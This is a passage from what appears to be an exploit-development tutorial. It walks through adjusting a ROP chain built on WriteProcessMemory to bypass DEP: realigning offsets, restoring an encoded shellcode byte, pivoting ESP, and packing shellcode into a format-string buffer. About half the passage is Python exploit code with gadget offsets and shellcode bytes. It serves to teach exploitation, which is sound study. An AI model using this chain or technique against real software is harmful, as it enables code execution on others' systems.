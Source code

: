 In Listing 72, we increased the offset from the start of the ROP chain to the beginning of our shellcode (lpBuffer) from 0x100 to 0x600 by modifying the highlighted value.

Additionally, we must ensure that the subtraction we perform to align EAX with the ROP skeleton takes this 0x500 byte offset into account.
...
rop += pack("<L", (0x42424242)) # junk for ret 0x10
rop += pack("<L", (0x42424242)) # junk for ret 0x10
rop += pack("<L", (0x42424242)) # junk for ret 0x10
rop += pack("<L", (0x42424242)) # junk for ret 0x10
rop += pack("<L", (0xfffff9e0)) # pop into eax
rop += pack("<L", (dllBase + 0x1d0f0)) # add eax, ecx ; ret
rop += pack("<L", (dllBase + 0x1fd8)) # mov [eax], ecx ; ret
...

This alignment is performed by adding the value 0xfffff9e0, which is 0x500 bytes less than the previous value of 0xfffffee0, as shown in Listing 73.

After this change, we must determine the negative offset from the stack address pointing to nSize to the first bad character in the shellcode. This calculation is tricky, so we'll find it dynamically instead.

As previously mentioned, at this point of the ROP chain execution, EAX contains the stack address of nSize. To locate the correct offset, we can pop a dummy value like 0xffffffff into ECX, which is then subtracted from EAX to perform the alignment. We will then use the debugger to determine the correct value to subtract at runtime.

Taking these modifications into consideration, we can craft the updated code shown in

# Restore first shellcode byte
rop += pack("<L", (dllBase + 0x117c)) # pop ecx ; ret
rop += pack("<L", (0xffffffff))	
rop += pack("<L", (dllBase + 0x4a7b6)) # sub eax, ecx ; pop ebx ; ret
rop += pack("<L", (0x11110111)) # 01 in bh
rop += pack("<L", (dllBase + 0x468ee)) # add [eax+1], bh ; ret

# Align ESP with ROP Skeleton
rop += pack("<L", (dllBase + 0x117c)) # pop ecx ; ret
rop += pack("<L", (0xffffffec)) # -14
rop += pack("<L", (dllBase + 0x1d0f0)) # add eax, ecx ; ret
rop += pack("<L", (dllBase + 0x5b415)) # xchg eax, esp ; ret

offset2 = b"C" * (0x600 - len(rop))
shellcode = b"\xfc\xe8\x82\xff\xff\xff\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x08\x8b\x52"
padding = b"D" * (0x1000 - 276 - 4 - len(rop) - len(offset2) - len(shellcode))

formatString = b"File: %s From: %d To: %d ChunkLoc: %d FileLoc: %d" % (offset+wpm+eip+rop+offset2+shellcode+padding,0,0,0,0)
buf += formatString

The lower part of Listing 74 includes the final changes, in which we have updated the offset2 variable to account for the increased size of psCommandBuffer and inserted the first 20 bytes of our custom-encoded shellcode.
